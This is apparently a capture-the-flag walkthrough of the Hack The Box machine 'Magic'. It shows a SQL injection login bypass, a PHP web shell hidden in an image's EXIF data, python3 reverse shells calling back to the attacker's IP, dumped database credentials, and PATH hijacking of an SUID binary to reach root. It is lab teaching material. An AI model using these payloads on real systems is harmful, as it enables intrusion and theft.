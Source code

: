 # Magic

First, set `magic.htb` to resolve to `10.10.10.185` in your `/etc/hosts` file.

## Enumeration

Let's start off with an all ports `nmap` scan.

```bash
$ nmap -sVC -p- -vvv -oN allports magic.htb
# Nmap 7.80 scan initiated Fri Apr 24 16:39:16 2020 as: nmap -sVC -p- -vvv -oN allports magic.htb
Nmap scan report for magic.htb (10.10.10.185)
Host is up, received syn-ack (0.052s latency).
Scanned at 2020-04-24 16:39:17 CDT for 36s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 24 16:39:53 2020 -- 1 IP address (1 host up) scanned in 37.23 seconds
```

Going to the website first, we find a login page at `http://magic.htb/login.php`. We can bypass this with a SQL injection, putting `'or''='` in the username and password fields. And we're in!

After bypassing the login page, we are met with an image upload page. Upon trying to upload a PHP webshell, it tells us that only files with the extensions `JPG`, `JPEG` and `PNG` are allowed. Then, I try changing the file extension to `.jpeg` instead of `.php`, yet it is still rejected. This tells me that the server is checking the magic bytes of the file to detect its type.

We can embed a PHP shell in an image using `exiftool`, and then upload that.

```bash
$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg
$ mv shell.jpg shell.php.jpg
```

Uploading this shell gives us a success message in the upper left corner: `The file shell.php.jpg has been uploaded.` Now we just have to figure out how to run it.

## Reverse Shell

We can do some quick webserver directory enumeration with `gobuster`:

```bash
$ gobuster dir -u http://magic.htb -w ~/tools/wordlists/directory-list-2.3-medium.txt --wildcard -t 40
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://magic.htb
[+] Threads:        40
[+] Wordlist:       /home/alichtman/tools/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/24 18:52:58 Starting gobuster
===============================================================
/assets (Status: 301)
/images (Status: 301)
```

That `images/` directory looks interesting.

```bash
$ gobuster dir -u http://magic.htb/images -w ~/tools/wordlists/directory-list-2.3-medium.txt --wildcard -t 40
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://magic.htb/images
[+] Threads:        40
[+] Wordlist:       /home/alichtman/tools/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/24 18:54:09 Starting gobuster
===============================================================
/uploads (Status: 301)
```

I would bet that my file gets uploaded here.

Navigating to `http://magic.htb/images/uploads/shell.php.jpg?cmd=ls` gives us command execution. Now for a reverse shell! Let's first see what tools are installed on the machine.

Sending a URL encoded request of `http://magic.htb/images/uploads/shell.php.jpg?cmd=which bash` (`http://magic.htb/images/uploads/shell.php.jpg?cmd=which+bash`) shows that `/bin/bash` is installed. Repeating this process a few times for other tools reveals that `python3` is also installed.

We launch a `nc` listener on port `1234`: `$ nc -lnvp 1234`, and then send the following web request to get a reverse shell with `python3`: `http://magic.htb/images/uploads/shell.php.jpg?cmd=python3+-c+%27import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect((%2210.10.14.5%22,1234))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call([%22/bin/sh%22,%22-i%22])%3b%27`

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.185] 34384
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
```

We upgrade the shell to a full pseudo-terminal.

## User Privilege Escalation

Hunting around the directory tree for a bit, we find this file with some credentials in it:

```bash
$ www-data@ubuntu:/var/www/Magic$ head db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

Great, we have a username and password. This should be an easy user privilege escalation.

```bash
$ www-data@ubuntu:/var/www/Magic$ su theseus
Password: # iamkingtheseus
su: Authentication failure
```

No dice. Let's dump the `mysql` database and see what's in it.

```bash
$ mysqldump -u theseus --password=iamkingtheseus --all-databases
...
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
...
```

That looks like a username and a password to me.

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
Password: # Th3s3usW4sK1ng
theseus@ubuntu:/var/www/Magic$
theseus@ubuntu:~$ wc user.txt
 1  1 33 user.txt
```

### Root Privilege Escalation

I move `LinEnum.sh` over and run it on the remote machine. I spot this line that looks out of place in the output:

```bash
[-] SUID files:
...
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
...
```

All of the other files in this output are `root root`, but this is `root users`, which means that any user can execute this, but it will execute with `root` privileges. Let's see what other processes this command spawns by watching the `pspy64` output while this runs.

```bash
2020/04/25 00:40:36 CMD: UID=0    PID=1      | /sbin/init auto noprompt
2020/04/25 00:40:44 CMD: UID=0    PID=6585   | lshw -short
2020/04/25 00:40:44 CMD: UID=0    PID=6584   | sh -c lshw -short
2020/04/25 00:40:44 CMD: UID=0    PID=6583   | /bin/sysinfo
2020/04/25 00:40:45 CMD: UID=0    PID=6586   |
2020/04/25 00:40:46 CMD: UID=0    PID=6591   | fdisk -l
2020/04/25 00:40:46 CMD: UID=0    PID=6590   | sh -c fdisk -l
```

So, it looks like `/bin/sysinfo` runs `lshw -short`. Since `lshw` isn't run by an absolute path, we can add in our own `lshw` script to the `$PATH` and have it execute as root. So, I create a file `lshw` in `/tmp` and put the following reverse shell code in it:

```bash
$ cat lshw
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I then prepend `/tmp` to the `PATH` with `$ export PATH=/tmp:$PATH`. And run `$ sysinfo` after starting a `nc` listener on my Kali host.

```bash
$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.185] 42606
# whoami
root
```

And there's root.
